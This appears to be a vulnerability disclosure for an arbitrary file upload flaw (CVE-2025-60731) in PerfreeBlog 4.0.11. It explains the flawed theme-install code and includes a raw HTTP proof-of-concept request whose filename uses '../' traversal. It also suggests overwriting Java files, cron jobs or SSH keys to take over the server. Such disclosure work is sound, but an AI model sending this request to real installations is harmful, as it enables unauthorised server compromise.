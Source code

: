 # Arbitrary File Upload Vulnerability in PerfreeBlog System(CVE-2025-60731)

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file upload vulnerability, which allows uploading any file to the server and gaining server privileges.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
The code for uploading theme files loads the uploaded theme files into the temp directory first without any verification, then executes the `installTheme` function.
![](./img/1.png)
When entering the `installTheme` function, it is found that it first decompresses the file. If the uploaded file is not a zip file, the decompression will fail, and the `file.delete()` function will not be executed. As a result, the uploaded file will be saved in the temp directory. Moreover, directory traversal can be performed using `../`, leading to a file upload vulnerability and potential file overwriting.
![](./img/2.png)


## Vulnerability Reproduction
First, log in to the background and navigate to Theme Management.
![](./img/3.png)

Click "Upload File" and capture the packet.
The interface is:
```
http://127.0.0.1:8086/api/auth/theme/installTheme
```
This interface allows uploading files with any suffix to the temp directory, and directory traversal can be performed using `../`.

```
POST /api/auth/theme/installTheme HTTP/1.1
Host: 127.0.0.1:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJhZG1pbiIsImlzcyI6InNlY3VyaXR5IiwiaWF0IjoxNzU1NzQ0ODg1LCJhdWQiOiJzZWN1cml0eS1hbGwiLCJleHAiOjE3NTU3NTIwODV9.oniKav5M-QEoR93JWDGv4aa20gVWv7fm6xS07EYQhJ4
Content-Type: multipart/form-data; boundary=----geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3
Content-Length: 232
Origin: http://127.0.0.1:8086
Connection: keep-alive
Referer: http://127.0.0.1:8086/admin/theme
Cookie: 
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3
Content-Disposition: form-data; name="file"; filename="../../1q.java"
Content-Type: text/plain

111111111111111
------geckoformboundary7dd0f6ff1964a2e44ae9ef79a114ffe3--
```
![](./img/4.png)
Successfully uploaded to the target directory. It is also possible to overwrite existing Java files to achieve RCE, as shown in the following figure.
![](./img/5.png)


For Linux systems, it is possible to write cron jobs, public-private keys, etc., to gain server privileges.
